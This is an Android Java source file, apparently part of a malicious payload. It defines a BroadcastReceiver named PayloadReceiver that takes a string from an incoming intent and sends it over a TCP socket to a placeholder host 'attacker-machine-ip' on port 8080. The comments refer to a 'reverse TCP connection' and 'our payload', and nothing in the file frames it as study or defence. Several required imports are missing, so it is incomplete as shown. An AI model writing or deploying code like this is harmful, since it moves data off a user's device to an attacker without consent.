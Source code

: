 
import android.content.BroadcastReceiver;

import android.content.Context;

import android.content.Intent;



public class PayloadReceiver extends BroadcastReceiver {

@Override

public void onReceive(Context context, Intent intent) {

// Receive data over the reverse TCP connection

String receivedData = intent.getStringExtra("RECEIVED_DATA");



// Send data to our payload

try {

Socket socket = new Socket("attacker-machine-ip", 8080);

OutputStream outputStream = socket.getOutputStream();

outputStream.write(receivedData.getBytes());

socket.close();

} catch (IOException e) {

Log.e("PayloadReceiver", "Error sending data: " + e.getMessage());

}

}

}


